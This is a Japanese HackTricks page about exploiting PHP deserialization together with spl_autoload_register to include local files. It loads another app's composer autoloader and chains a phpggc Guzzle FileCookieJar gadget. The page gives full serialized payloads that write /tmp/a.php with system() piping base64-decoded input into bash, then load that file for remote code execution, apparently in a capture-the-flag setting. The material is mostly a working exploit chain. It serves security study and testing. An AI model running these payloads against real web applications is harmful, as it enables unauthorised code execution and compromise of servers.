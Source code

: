 # PHP - デシリアライゼーション + オートロードクラス

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** に参加するか、[telegramグループ](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live) をフォローする。
* **ハッキングトリックを共有するために** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出する。

</details>

最初に、[**オートローディングクラス**](https://www.php.net/manual/en/language.oop5.autoload.php) を確認する必要があります。

## PHPデシリアライゼーション + spl\_autoload\_register + LFI/Gadget

**`phpggc`** 内に**ガジェットがない**ライブラリを持つ **webアプリ** で **PHPデシリアライゼーション** を見つけた状況にいます。ただし、同じコンテナ内には **脆弱なライブラリを持つ別のcomposer webアプリ** がありました。したがって、目標は、**他のwebアプリのcomposerローダーを読み込んで**、デシリアライゼーションに脆弱なwebアプリからの **ガジェットを悪用してそのライブラリを攻撃するガジェットを読み込む** ことでした。

手順:

* **デシリアライゼーション** を見つけ、現在のアプリコードに **ガジェットがない**
* 次のような **`spl_autoload_register`** 関数を悪用して、`.php` 拡張子の **任意のローカルファイルを読み込む** ことができます
* そのために、クラス名が **`$name`** 内にあるデシリアライゼーションを悪用します。シリアル化されたオブジェクト内のクラス名には **"/" や "."** を使用できませんが、**コード** は **アンダースコア** ("\_") を **スラッシュ** ("/") に **置換** しています。したがって、`tmp_passwd` のようなクラス名は `/tmp/passwd.php` に変換され、コードがそれを読み込もうとします。\
**ガジェットの例** は: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
**ファイルアップロード**があり、**`.php`拡張子**のファイルをアップロードできる場合、**この機能を直接悪用**してすでにRCEを取得できます。
{% endhint %}

私の場合、そのようなものはありませんでしたが、**同じコンテナ内**に、**`phpggc`ガジェットに脆弱なライブラリ**を持つ別のコンポーザーWebページがありました。

- この他のライブラリを読み込むには、まず**その他のWebアプリのコンポーザーローダーを読み込む必要があります**（現在のアプリケーションのものは他のアプリケーションのライブラリにアクセスできません）。**アプリケーションのパスを知っている**場合、次のように非常に簡単にこれを達成できます：**`O:28:"www_frontend_vendor_autoload":0:{}`**（私の場合、コンポーザーローダーは`/www/frontend/vendor/autoload.php`にありました）
- これで、他の**アプリのコンポーザーローダー**を**読み込む**ことができるようになりました。次は、使用する**`phpggc`ペイロードを生成**する時です。私の場合、**`Guzzle/FW1`**を使用し、**ファイルシステム内に任意のファイルを書き込む**ことができました。
- 注：**生成されたガジェットは機能しませんでした**。機能させるためには、そのペイロードの**`chain.php`**を変更し、クラスの**すべての属性をプライベートからパブリックに設定**する必要がありました。そうしないと、文字列を逆シリアル化した後、作成されたオブジェクトの属性に値が含まれていませんでした。
- これで、他のアプリのコンポーザーローダーを**読み込む方法**と機能する**phpggcペイロード**を持っていますが、**この作業を**ガジェットが使用される**ときにローダーが読み込まれるようにするために、**同じリクエストでこれを行う必要があります**。そのため、次のように両方のオブジェクトを含むシリアル化された配列を送信しました：
- **最初にローダーが読み込まれ、次にペイロードが表示されます**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* 今、**ファイルを作成して書き込む**ことができますが、ユーザーは**Webサーバー内の任意のフォルダに書き込むことができません**。したがって、ペイロードで見られるように、PHPは**`/tmp/a.php`**に作成された**base64**を使用して**`system`**を呼び出します。その後、他のWebアプリのコンポーザーローダーをロードするために使用した最初のタイプのペイロードを再利用できます。生成された**`/tmp/a.php`**ファイルをロードするために、デシリアライゼーションガジェットに追加するだけです：&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**ペイロードの要約**

* 同じコンテナ内の別のWebアプリの**composer autoloadをロード**
* **phpggcガジェットをロード**して、他のWebアプリのライブラリを悪用する（逆シリアル化の脆弱性がある初期のWebアプリにはガジェットが含まれていなかった）
* ガジェットは、悪意のあるコマンドが含まれた/tmp/a.phpにPHPペイロードのファイルを**作成**する（Webアプリのユーザーは他のWebアプリのどのフォルダにも書き込むことができない）
* ペイロードの最後の部分では、**生成されたphpファイルをロード**してコマンドを実行する

この逆シリアル化を**2回呼び出す必要がありました**。テストでは、最初の呼び出しでは`/tmp/a.php`ファイルが作成されましたがロードされず、2回目の呼び出しでは正しくロードされました。
